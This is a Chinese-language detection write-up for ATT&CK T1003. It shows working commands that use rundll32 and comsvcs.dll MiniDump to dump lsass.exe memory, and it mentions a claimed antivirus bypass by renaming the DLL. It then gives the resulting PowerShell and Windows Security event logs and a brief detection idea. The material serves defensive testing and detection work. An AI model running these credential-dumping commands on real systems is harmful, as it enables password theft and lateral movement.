 # T1003-win-使用comsvcs.dll转储Lsass.exe内存

## 来自ATT&CK的描述

凭据转储是从操作系统和软件获取账号登录名和密码（哈希或明文密码）信息的过程。然后可以使用凭据来执行横向移动并访问受限制的信息。

攻击者和专业安全测试人员都可能会使用此技术中提到的几种工具。也可能存在其他自定义工具。

## 测试案例

comsvcs.dll，在系统崩溃时转储进程内存的系统窗口和系统32，通过rundll32编写，该dll包含函数MiniDump。

## 检测日志

- windows 安全日志
- windows Sysmon日志
- Windows Powershell日志

## 测试复现

```yml
powershell -c "rundll32 C:\windows\system32\comsvcs.dll, MiniDump 648 C:\AtomicRedTeam\lsass.dmp full"
#注意：这里648是lsass.exe的PID。
#通过命令tasklist | findstr lsass.exe查找PID值。

C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id $env:TEMP\lsass-comsvcs.dmp full
```

可直接调用rundll32进程(**需要Admin或Root权限**)，在2021年2月一篇文章中提到通过修改comsvcs.dll路径或名称，可绕过火绒/360安全卫士，经过10月实际测试，无法绕过360安全卫士。

## 测试留痕

```log
#Powershell日志，事件ID:400
引擎状态已从 None 更改为 Available。

详细信息: 
 NewEngineState=Available
 PreviousEngineState=None

 SequenceNumber=13

 HostName=ConsoleHost
 HostVersion=5.1.14393.206
 HostId=beebd53e-f854-42ea-8d25-a148d224b726
 HostApplication=C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c rundll32 C:\windows\system32\comsvcs.dll, MiniDump 648 C:\AtomicRedTeam\lsass.dmp full
 EngineVersion=5.1.14393.206
 RunspaceId=af860283-73a9-452c-a1cd-ea808dbaf232
 PipelineId=
 CommandName=
 CommandType=
 ScriptName=
 CommandPath=
 CommandLine=
```

```log
#windows安全日志，事件ID：4688
已创建新进程。

创建者主题:
 安全 ID:  QAX\Administrator
 帐户名:  Administrator
 帐户域:  QAX
 登录 ID:  0xCF2BF2

目标主题:
 安全 ID:  NULL SID
 帐户名:  -
 帐户域:  -
 登录 ID:  0x0

进程信息:
 新进程 ID:  0x11020
 新进程名称: C:\Windows\System32\rundll32.exe
 令牌提升类型: %%1936
 强制性标签:  Mandatory Label\High Mandatory Level
 创建者进程 ID: 0x1abc
 创建者进程名称: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 进程命令行: "C:\Windows\system32\rundll32.exe" C:\windows\system32\comsvcs.dll MiniDump 648 C:\AtomicRedTeam\lsass.dmp full

“令牌提升类型”表示根据用户帐户控制策略分配给新进程的令牌类型。

类型 1 是未删除特权或未禁用组的完全令牌。完全令牌仅在禁用了用户帐户控制或者用户是内置管理员帐户或服务帐户的情况下使用。

类型 2 是未删除特权或未禁用组的提升令牌。当启用了用户帐户控制并且用户选择使用“以管理员身份运行”选项启动程序时，会使用提升令牌。当应用程序配置为始终需要管理特权或始终需要最高特权并且用户是管理员组的成员时，也会使用提升令牌。

类型 3 是删除了管理特权并禁用了管理组的受限令牌。当启用了用户帐户控制，应用程序不需要管理特权并且用户未选择使用“以管理员身份运行”选项启动程序时，会使用受限令牌。
```

## 检测规则/思路

重点关注rundll32进程的异常行为。由于dll名称可变，无法通过日志针对进程名称进行有效监测。

## 建议

安装终端防护似乎是个不错的选择。

## 参考推荐

MITRE-ATT&CK-T1003

<https://attack.mitre.org/techniques/T1003/>

comsvcs.dll转储lsass（过360卫士&火绒）

<https://www.cnblogs.com/Yang34/p/14418572.html>

Windows明文密码获取

<https://blog.csdn.net/xiangshen1990/article/details/104865393>
